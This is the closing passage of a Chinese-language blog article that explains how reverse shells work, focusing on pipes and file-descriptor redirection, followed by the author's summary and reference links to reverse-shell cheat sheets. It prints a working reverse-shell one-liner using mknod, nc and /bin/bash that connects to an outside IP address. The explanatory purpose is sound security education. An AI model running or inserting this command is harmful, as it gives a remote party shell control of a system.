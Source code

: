   **简单的解释：**

  mkfifo 命令首先创建了一个管道，cat 将管道里面的内容输出传递给/bin/sh，sh会执行管道里的命令并将标准输出和标准错误输出结果通过nc 传到该管道，由此形成了一个回路

  类似的命令：

  ```
  mknod backpipe p; nc 192.168.146.129 2333 0<backpipe | /bin/bash 1>backpipe 2>backpipe
  ```

  ## **0X05 总结**

  反弹shell方法虽然常见，方法网上一搜就是一大把的代码，但是很少有人会去仔细斟酌反弹shell的原理，我也看到有类似的文章，但是可能是由于篇幅原因并没有对文件描述符和重定向的部分做深入的讨论，导致解释语句的时候依然让人不好理解，于是这次我分成了两篇有所关联的文章彻底的剖析了一下，个人认为这个原理是非常值得大家思考的，也很有趣，如果我的文章有什么地方有问题，希望大家及时联系我。

  个人博客： <http://www.k0rz3n.com>

  ## **0X06 参考链接**

  <https://www.cnblogs.com/r00tgrok/p/reverse_shell_cheatsheet.html>
   <http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet>
   <https://blog.csdn.net/roler_/article/details/17504039>
   <http://www.freebuf.com/articles/system/153986.html>
   <https://www.zhihu.com/question/24503813>